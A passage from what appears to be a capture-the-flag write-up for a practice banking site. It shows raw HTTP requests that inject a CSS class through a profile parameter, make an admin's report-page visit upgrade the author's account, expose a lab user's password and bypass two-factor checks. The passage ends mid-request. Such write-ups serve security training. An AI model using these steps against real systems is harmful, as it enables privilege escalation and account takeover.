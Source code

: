 ```http
Content-Length: 42
Origin: https://staff.bountypay.h1ctf.com
Connection: close
Referer: https://staff.bountypay.h1ctf.com/?template=home
Cookie: token=c0lsdUVWbXlwYnp5L1VuMG5qcGdMZnlPTm9iQjhhbzhweEtKaFFCZGhSVHBnMVNDWHlsVkRKclJqcnIwR1B3NVRQRFYrV01aenlqQ2pWU0lGNUlpYkRlOXlZWk1BR0hqTzFPaWQ0bDA0M2xZdXozYkJqRURhdXczckZGTWlCSGtVR3lDU3FycUZGUjY0QXNHOTMvd3J2VlVKUDV6N3ErVU9SK3Rlc3FMYXYvSFVSRlVnNXZ6MGFkMVpiYTE3UT09
Upgrade-Insecure-Requests: 1

profile_name=sandra&profile_avatar=avatar2
```
I figured out that I needed to change the profile_avatar parameter to `tab3+upgradeToAdmin`.
This was required because in the Support Tickets page my avatar was shown using the `profile_avatar` value as a CSS class.
Remember the `Report This Page` request? 
I encoded to base64 this string: `/?template[]=login&username=sandra.allison&template[]=ticket&ticket_id=3582#tab3` and then sent this HTTP request:
```http
GET /admin/report?url=Lz90ZW1wbGF0ZVtdPWxvZ2luJnVzZXJuYW1lPXNhbmRyYS5hbGxpc29uJnRlbXBsYXRlW109dGlja2V0JnRpY2tldF9pZD0zNTgyI3RhYjM= HTTP/1.1
Host: staff.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: https://staff.bountypay.h1ctf.com/?template=home
Cookie: token=c0lsdUVWbXlwYnp5L1VuMG5qcGdMZnlPTm9iQjhhbzhweEtKaFFCZGhSVHBnMVNDWHlsVkRKclJqcnIwR1B3NVRQRFYrV01aenlqQ2pWU0lGNUlpYkRlOXlZWk1BR0hqTzFPaWQ0bDA0M2xZdXozYkJqRURhdXczckZGTWlCSGtVR3lDU3FycUZGUjY0QXNHOTMvd3J2VlVKUDV6N3ErVU9SK3Rlc3FMYXYvSFVSRlVnNXZ6MGFkMVpiYTE3UT09
```
At this point, I made an admin upgrade my account!
A new tab showed up in my dashboard:
{F852405}
So now I knew that the user `marten.mickos` existed and its password was `h&H5wy2Lggj*kKn4OD&Ype`!
These credentials worked on `https://app.bountypay.h1ctf.com`: I had to use the MD5 trick again to bypass the 2FA as explained before.

A new 2FA
=====================
I had already seen this dashboard, but this time it was not all empty.
After selecting May 2020 as date, I saw this:
{F852406}
So I clicked pay and a new 2FA challenge appeared:
{F852407}
This one was different and looked harder to bypass.
After clicking `Send Challenge` a request like this was sent:
```http
POST /pay/17538771/27cd1393c170e1e97f9507a5351ea1ba HTTP/1.1
Host: app.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 73
Origin: https://app.bountypay.h1ctf.com
Connection: close
Referer: https://app.bountypay.h1ctf.com/pay/17538771/27cd1393c170e1e97f9507a5351ea1ba
Cookie: token=eyJhY2NvdW50X2lkIjoiQWU4aUpMa245eiIsImhhc2giOiIzNjE2ZDZiMmMxNWU1MGMwMjQ4YjIyNzZiNDg0ZGRiMiJ9
Upgrade-Insecure-Requests: 1

```